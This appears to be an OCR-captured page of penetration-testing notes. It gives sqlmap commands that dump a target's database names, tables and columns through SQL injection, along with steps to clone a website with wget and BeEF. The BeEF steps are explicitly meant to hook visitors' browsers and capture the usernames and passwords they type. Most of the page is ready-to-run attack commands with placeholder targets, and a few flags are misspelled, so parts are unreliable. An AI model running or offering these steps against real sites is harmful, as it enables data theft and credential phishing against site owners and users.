 ```js
- Options > Connections > Upstream Proxy Server
- Destination Host:*
- Proxy Host: 127.0.0.1
- Proxy Port: 6789

- Target > Scope
- Host: <target domain or IP>
```

SQLMAP:

```bash
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" --randomize rnd --dbms=mysql --technique=U --union-cols=7-10 --prefix "'" --sufix " # " --banner
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" --current-db
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" -D <name of the db> --tables
sqlmap -u "<target url/search?rnd=a1a1&name=a>" -p name --proxy="http://127.0.0.1:8080" -D <DBs name> -T <TABLEs name> --collums 
```

### 3 - Website Cloning

```bash
# edit /etc/hosts > add 127.0.0.1 cloned.test
cd /etc/apache2/sites-available > cp default cloned.test

# edit clonet.test > add ServerName cloned.test > edit DocumentRoot /var/www/cloned.test
a2ensite cloned.test
service apache2 reload

cd /var/www/cloned.test
echo 'Hello World' > index.html
test in browser
```

#### Clone with wget

```bash
cd /var/www/cloned.test/
wget -mK -nH <target site>
```

#### Clone with BeEF

```bash
beef -x
```

in shell:

```bash
curl -H "Content-Type: application/json; charset=UTF-8" \ -d '{"url":"<target URL>", "mount":"/amazon"}' \ -X POST http://127.0.0.1:3000/api/seng/clone_page?token=<API key from BeEF console> 

- Go to the browser and visit the address
- localhost:3000/amazon
# with beef its cloned + its automaticaly hooked 
# If the user type anything like user:password it will be redirect to the original site and BeEF will capture any info
```
